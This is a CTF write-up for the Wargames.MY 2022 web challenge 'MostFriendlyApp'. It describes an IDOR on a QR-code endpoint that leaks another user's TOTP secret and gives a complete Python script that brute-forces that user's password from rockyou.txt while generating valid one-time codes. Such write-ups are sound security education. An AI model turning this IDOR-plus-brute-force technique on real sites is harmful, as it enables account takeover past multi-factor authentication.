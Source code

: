 ```yaml
---
layout: post
title: MostFriendlyApp (web)
ctf: Wargames.MY 2022
permalink: /WargamesMY2022/MostFriendlyApp
---
```


This web challenge did not provide source code so it is completely blackbox testing. Btw I did not manage to solve all questions on time because of some health related reason 😷.

## Overview

> 🚧 **Description** : I created an account in this website, but lost my authenticator and forgot my password. Can you help me to get my account back? My username is `godam`

Before attacking the system, I prefer to understand the system first in term of functionality/features or flow. Basically the challenge have features like:
* Pre Auth
1. Register account
2. Verify account
3. Login
* Post Auth
1. Insert Notes
2. Logout

After register an account, the user will be asked to verify new account. So the server make a request at endpoint `/getQR.php?username={anyusername}` with current registered username to get the QR code. Maybe we can get an IDOR here like entering `godam's` username.

![img1][img1]

The QR code contains [TOTP](https://en.wikipedia.org/wiki/Time-based_one-time_password) thingy such as secret value and user can scan it with Google/Microsoft Authenticator to get the passcode. Noted that passcode will change for every 30 seconds. In linux, we can use `oathtool` to get totp passcode from secret key.

```bash                                                                                 
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
188176
                                                                           
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
188176
                                                                                 
❯ oathtool -b --totp 'RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY' 
929421
```
Now we have TOTP passcode, an user account but we dont have his password. Then hint was released saying that `It is required to brute force his password to solve it`.

## Solution

Since we already know the username and passcode, we just have to bruteforce password field on login form. So the flow is something like this:
1. First, I try to login with `godam` as username and any password from rockyou.txt as password
2. Then, sends totp code for `godam`

If the system validate the passcode, we will found the correct password for `godam`. I using python script for bruteforce automation and [oathtool](https://pypi.org/project/oathtool/) to retrieve passcode. Here is the full script and of course we can make the script shorter but hey, as long its work im not gonna touch it.

```py
import requests
import oathtool
import time

cookies = {
    'PHPSESSID': '99uc5a5630dbiltiek8nfud4v5',
}

def passcode(secret):
    t = time.localtime(time.time())
    time_in_seconds = t.tm_sec

    if time_in_seconds % 30 > 28:
        time.sleep(3)
    
    totp = oathtool.generate_otp(secret)

    headers = {
        'Host': 'mfa.wargames.my',
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'http://mfa.wargames.my',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://mfa.wargames.my/verify.php',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close',
    }

    data = {
        'otp': f"{totp}",
    }

    response = requests.post('http://mfa.wargames.my/verify.php', cookies=cookies, headers=headers, data=data, verify=False, allow_redirects=True)
    return response.text

def login(passwd):
    params = {
        'username': 'godam',
        'password': f"{passwd}",
    }

    headers = {
        'Host': 'mfa.wargames.my',
        'Upgrade-Insecure-Requests': '1',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.125 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
        'Referer': 'http://mfa.wargames.my/login.php',
        'Accept-Language': 'en-US,en;q=0.9',
        'Connection': 'close',
    }
    response = requests.get('http://mfa.wargames.my/login.php', params=params, cookies=cookies, headers=headers, verify=False)
    return response.status_code

filename = "/usr/share/dirb/wordlists/rockyou.txt"
secret_godam = "RUKTVQSRTNNBWNPCBVHK7TNLW2MBUUW5XWF5HJAUUEPVZVCHIKN3PGBFPTLRJQQ3NQGFX3BKYWXO4DUNEYOT5DSL7KC7K6K5RD32PIY" # user godam

with open(filename) as file:
    for passwd in file:
        login_stcode = login(passwd.rstrip())

        if login_stcode == 200:
            if "Verified!" in passcode(secret_godam):
                print(f"Valid password for godam: {passwd}")
                exit()
            else:
                print(f"Invalid password for godam: {passwd}")
                time.sleep(1.5)
        else:
            print(f"Error on login")
            exit()
```

<!-- [img1]:{{site.baseurl}}/images/2022-12-26/passcode.png -->
[img1]:{{site.baseurl}}/ctfs/WargamesMY2022/MostFriendlyApp/images/passcode.png